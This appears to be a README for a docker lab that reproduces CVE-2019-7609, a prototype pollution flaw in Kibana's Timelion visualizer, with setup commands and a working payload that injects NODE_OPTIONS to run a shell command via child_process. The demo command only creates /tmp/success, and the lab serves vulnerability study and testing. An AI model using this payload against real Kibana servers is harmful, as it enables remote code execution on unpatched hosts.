


# Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```



Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:


